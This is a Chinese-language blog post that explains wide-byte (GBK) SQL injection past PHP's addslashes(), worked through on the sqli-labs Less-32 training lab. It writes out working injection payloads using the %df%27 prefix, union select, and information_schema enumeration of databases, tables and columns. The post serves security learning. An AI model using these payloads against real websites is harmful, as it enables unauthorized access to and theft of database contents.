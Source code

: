 ```yaml
---
title: "SQL宽字节注入"
date: 2021-03-02T18:58:31+08:00
lastmod: 2021-03-02T18:58:31+08:00
draft: false
keywords: ["sql","注入","安全"]
description: ""
tags: ["sql","注入"]
categories: ["安全"]
author: ""

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: true
autoCollapseToc: false
postMetaInFooter: false
hiddenFromHomePage: false
# You can also define another contentCopyright. e.g. contentCopyright: "This is another copyright."
contentCopyright: false
reward: false
mathjax: false
mathjaxEnableSingleDollar: false
mathjaxEnableAutoNumber: false

# You unlisted posts you might want not want the header or footer to show
hideHeaderAndFooter: false

# You can enable or disable out-of-date content warning for individual post.
# Comment this out to use the global config.
#enableOutdatedInfoWarning: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


搭建本地环境sqli-labs做的宽字节sql注入测试。
<!--more-->
### 宽字节注入原理

在说注入原理前，首先得认识PHP中的**addslashes()**函数：

![](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/addslashes()%E5%87%BD%E6%95%B0.png)



也就是说，当你输入单引号等字符时，addslashes函数会自动加上**\\**对字符进行转义，这样就会使得普通字符型注入只添加单引号闭合无法生效；

那么，要找到注入点就要想办法从addslashes函数逃逸出来。才能实现引号的闭合。这里存在两种办法：

{% note success, 

1. 把addslashes()函数所添加的反斜杠再添加一个反斜杠，对反斜杠进行转义，即“\\\”。
2. 想办法让\\消失。

针对第二种方法，利用的是mysql的一个特性，mysql在使用GBK编码时会认为两个字符时一个汉字（前一个ascii码要大于128，才到汉字的范围）

​					’       ->     \\'      ->   %5c%27

​				%df     ->  %df\\'  ->   %df%5c%27  -> %}

加入单引号时，addslashes()函数会自动添加反斜杠对单引号进行转移，而mysql使用GBK编码时对字符进行编码\\‘就变成了%5c%27，这个时候如果再在%5c%27前面加上一个字符如“%df”（ascii码大于128的字符即可），mysql在进行GBK编码时，会将两个字符%df%5c认为是一个汉字，这个时候单引号就可以逃逸出来进行单引号闭合。

### sqli-labs实例  Less-32

根据题目提示**Bypass addslashex()**以及页面提示即可知道该题为宽字节注入题目。

- 首先我们针对第一种方法进行测试输入id=1看输出结果

![image-20200707121348454](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sql%E6%B3%A8%E5%85%A5.png)

输入反斜杠和单引号看输出结果

![image-20200707121643216](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sql%E6%B3%A8%E5%85%A52.png)

从Hint可看到无论输入反斜杠还是单引号，后台最终都会对输入的反斜杠和单引号进行转义。所以此方法行不通。

- 第二种方法测试，让反斜杠进行GBK编码时消失。

输入:?id=%df 会发现返回了一个乱码（中文乱码）说明%df%5c结合成了一个汉字，反斜杠消失。

![image-20200707122357365](D:%5CBLOG%5C_posts%5CSQL%E6%B3%A8%E5%85%A5%E2%80%94%E5%AE%BD%E5%AD%97%E8%8A%82%5Cimage-20200707122357365.png)

反斜杠消失后即可根据常规单引号闭合注入方法进行sql语句的注入。

### sql注入步骤

1.查列数，order by + 数字 进行测试

id=%df%27 order by 3 %23

2.查回显位置

?id=%df%27 union select 1,2,3 %23?

3.查库名

?id=%df%27 union select 1,database(),3 %23

4.查表名

?id=%df%27 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 %23

![image-20200707123721606](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sqlzhuru.png)

5.查列名

?id=%df%27 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='xxxx'),3 %23

这里输入table_name='users'时，addslashex()函数还会对单引号进行转义。可对users进行hex编码即转为16进制。

![image-20200707123956587](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sqlzhuru2.png)

得到列名表名即可得到数据库信息。



------

**参考：安全课堂的视频内容。**

**以上内容均为个人理解，如有错误，请指正**
